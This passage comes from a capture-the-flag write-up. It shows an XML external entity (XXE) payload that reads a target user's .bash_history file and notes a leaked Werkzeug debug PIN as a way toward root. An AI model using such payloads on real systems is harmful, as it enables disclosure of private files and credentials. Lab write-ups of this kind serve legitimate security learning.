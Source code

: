 .. and we got the user flag! What other interesting things can we find out
about this user that might help us gain root?

Let's peak into their `.bash_history` file to see if we can glean any info
based on their recent work.

```
$ cat hello5.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/.bash_history" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```

<img src="xxe-bashhistory.jpg" width=500px>

Two things we find of interest here: 1. they recently setup RSA key
(presumably to do their `git` commits) and 2. there seems to be a hardcoded
"pin" `WERKZEUG_DEBUG_PIN=15123786` that could be useful.
